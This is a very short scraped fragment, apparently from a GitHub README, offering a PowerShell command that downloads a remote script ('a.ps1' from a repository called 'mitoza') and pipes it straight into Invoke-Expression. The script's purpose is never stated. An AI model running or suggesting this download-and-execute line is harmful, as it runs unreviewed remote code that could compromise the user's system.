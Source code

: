 ## PS Command

```ps1
iwr "https://raw.githubusercontent.com/Ksawix0/mitoza/refs/heads/main/a.ps1" | iex
```
